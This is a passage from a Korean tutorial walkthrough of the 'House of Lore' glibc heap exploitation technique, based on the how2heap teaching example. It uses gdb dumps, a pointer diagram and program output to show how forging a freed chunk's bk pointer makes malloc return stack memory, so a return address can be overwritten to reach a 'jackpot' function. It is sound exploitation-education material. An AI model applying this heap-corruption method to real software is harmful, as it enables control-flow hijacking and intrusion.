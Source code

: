 victim을 다시 한 번 free하여 bk 영역에 stack_buffer_1으로 변조한다.

```
gdb-peda$ x/24wx 0x804c000
0x804c000:	0x00000000	0x00000069	0xf7fb6810	0xffffd58c <- stack_buffer_1
```

```               
-------> -------- victim chunk(0x804c000) --------- 
|        |                   |                    |
|        |         fwd       | bk(stack_buffer_1) |----
|        ------------------------------------------   |
|                                                     |
|   ---------------------------------------------------
|   |
|   ----> -------- stack_buffer_1(0xffffd58c) -------
|   |     |        0x0         |         0x0        |
----|-----|  fwd(victim_chunk) | bk(stack_buffer_2) |----
    |     -------------------------------------------   |
    |                                                   |
    | ---------------------------------------------------                     
    | |
    | --> -------- stack_buffer_2(0xffffd580) ------- 
    |     |                     |                   | 
    ------| fwd(stack_buffer_1) |                   |
          -------------------------------------------
```

victim과 똑같은 size로 malloc한다.

```
Now allocating a chunk with size equal to the first one freed
This should return the overwritten victim chunk and set the bin->bk to the injected victim->bk pointer
```

0x804c000 영역이 할당되었다.

```
gdb-peda$ x/24wx 0x804c000
0x804c000:	0x00000000	0x00000069	0xf7fb6810	0xffffd58c
```

다시 한 번 똑같은 size로 malloc할 경우 Stack의 공간이 할당된다. (0xffffd594)  
jackot의 주소를 변수에 저장 후 p4 + 40 위치에 memcpy할 경우 Return Address가 변조되어 jackpot이 실행된다.

```
This last malloc should trick the glibc malloc to return a chunk at the position injected in bin->bk
p4 = malloc(100)
The fwd pointer of stack_buffer_2 has changed after the last malloc to 0xf7fb6810
p4 is 0xffffd594 and should be on the stack!
Nice jump d00d
```

**References**  
<https://www.lazenca.net/display/TEC/The+House+of+Lore>  
<https://github.com/shellphish/how2heap/blob/master/glibc_2.25/house_of_lore.c#L71>  
<https://umbum.dev/434>
